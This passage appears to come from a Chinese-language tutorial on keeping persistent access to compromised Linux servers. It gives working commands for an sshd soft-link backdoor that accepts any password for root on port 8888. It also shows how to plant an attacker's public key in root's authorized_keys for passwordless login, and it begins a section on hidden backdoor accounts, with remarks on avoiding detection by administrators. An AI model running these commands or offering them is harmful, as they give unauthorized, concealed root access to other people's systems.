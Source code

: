 （这里如果是no可以去这个配置文件中直接去修改，不过需要是root权限哦。）

2、创建软链接：

```bash
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=8888
```

3、此时，任意密码即可登录：

```bash
ssh root@xx.xx.xx.xx -p 8888
```

> 该方法一旦重启，则会失效！！！ 可以配合定时任务使用，效果更佳

### 2、公私钥

这个直接利用公私密钥进行匹配即可完成登录：

开启：（这里要注意不管是攻击机还是目标机器都需要开启这个验证。）

```bash
vim /etc/ssh/sshd_config

RSAAuthentication yes
PubkeyAuthentication yes
AuthorizedKeysFile .ssh/authorized_keys
```

攻击机生成密钥：

```bash
ssh-keygen -t rsa #三次回车

id_rsa : 私钥
id_rsa.pub : 公钥
```

![截图](59c5627fa9444da666e5316c77f07ebf.png)

然后将将攻击机中的公钥中的内容复制到`authorized_keys`中。如果本地没有这个文件那就创建一个：

```bash
/root/.ssh/authorized_keys
```

本地连接即可：

 这里直接去登录就会发现是不需要使用密码验证的，其实在kali去连接目标主机的时候就已经进行了密钥验证。

```bash
ssh root@ip
```

### 3、后门账户

创建后门账户同样都容易被发现，除非服务器日常都没人巡检，若正常有管理员巡检或者设置的比较严格的，通常都不能保留的时间太长。

两种添加账户的方法：
